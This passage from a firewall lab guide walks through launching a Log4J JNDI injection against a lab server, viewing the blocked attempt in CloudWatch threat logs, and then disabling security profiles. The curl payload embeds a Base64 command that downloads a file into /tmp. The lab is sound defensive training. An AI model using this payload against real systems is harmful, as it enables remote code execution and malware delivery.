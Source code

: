 ![](https://lh5.googleusercontent.com/S4BlXjQP5RYMIGuvIkX3__-X7vSN6nYPaapj5iV8g0KmG2YNcmSefP_i3Xgn_r9V1hbJv9TxLiLYVeAELmjL-JJzO2mNCs7LYDOeOdAIlFmrDTHGBy7sN6I-BRGRh9CTduNOLbWSBD1HfoWELjr6DUk)

## Launch the Log4J Attack

84. On the **att-app-server** command prompt, execute this command to launch the Log4J attack.

```
curl 10.0.0.10:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

85. This time, you will not see the ‘Hello, world” message as the attack will have been blocked by the NGFW.

![](https://lh6.googleusercontent.com/n9Z6WR3jJHVxh_5N8TRB-IB2jW0mRal8FwYVW6w09968Gw-sLEB90cKNEdn6YCZsU7YjkgaV4qtV3fJ3yi41qsxIvQvehgUrMWWKulN-oyOH4phjTxzYfFJoEW6I-pMzkVxzCJCsmWfzV1zZ470)

## Monitor threat log

86. Navigate to the AWS Console browser tab, on the Search bar at the top of the page, type “cloudwatch” and select “CloudWatch” from the search results.
87. From the left menu, click on “Log groups” and from the list of Log groups, select “PaloAltoCloudNGFW”.
88. Navigate to AWS CloudWatch browser tab and click on ‘Log Groups’
89. Click on the THREAT log file.

![](https://lh5.googleusercontent.com/6_x3TcTGkZv2VPIJBxeoDlDG980gohlde3O62gCeQwVsQ1gKf3D1psP9ERpFJTuThYbf0wRjKsJAp2kKzoP4RU7MZUL-Bh17YhSbaLy5yICANUnCFdNZV_BgheGiMOi-3YlQANcUcPtnsVQQz0poo68)

90. Click on the arrow to open the log. You can see that CloudNGFW successfully detected and prevented the attempted Log4J attack.

![](https://lh4.googleusercontent.com/QVyfTld7k4H5CjwDquHgjqsHjOW_bM-kEZSLgEEoF6oV1YbexVzilJpkWLVhuEIGMmaw_iD7Gg91SkV1h2Ap6ibzb6QOht0odJlAvfPC9c-1bWbvuzszM0WPUkXzgpiutjwQKOsnGEMqMCtUgLPiCFQ)

## Play around with Security Profiles

91. On the CloudNGFW Console, navigate to _Rulestacks_ and click on ‘Rulestack1’

![](https://lh5.googleusercontent.com/VyhB6hAv8QO2H2bGa5jpDwY5LRyBo5A92qOSWCp0YGlnfTUaNaawJ8ty8fRA5uZh4AtH9tiul6S8HFASqjyj5I70RcsULOeqAXTtbaXEx1xXD3mI8d3jOHB6sZfPw3UggaC1B15aX4AImgG5yMr4naM)

92. Navigate to the ‘Security Profiles’ tab.

![](https://lh4.googleusercontent.com/8ekWbvx50uSvtmAmq9qO6tRzw9xxosIDVPNvv0OttCYdsFNFafudjkC3Aos6DwTXxhHhpJwj2kPxJVUG7yqYzg1zfNqNOtdaKYSivHfydKt4INktcqodf8kkM40GrDAgaajaEFjDa9HYdHGpOqzUdCk)

By default, IPS Vulnerability, Anti-Spyware, Antivirus and File Blocking features are enabled in the Security Profiles. This is what blocks the Log4J attack in the previous step. Just for the purpose of this activity, we can disable some of these profiles.

93. Disable IPS Vulnerability, Anti-Spyware, Antivirus and File Blocking.

![](https://lh6.googleusercontent.com/sfPF-dY13L4PCGcGsRZKet7g0596YboPv0yh-SYWzrVqfYTKuorC8ZRRLH882h9qbwHOye4TboGsRVQh9g-egzNVMXr_ga3ZndZwxiYkOnkzVPw4JrwFCmEA3_IEECfbvnEoQz9VUnJ9JLtHm_fkmGU)

94. From the ‘CONFIG ACTIONS’ dropdown list at the top-right side of the page, select ‘_Deploy Configuration_’.
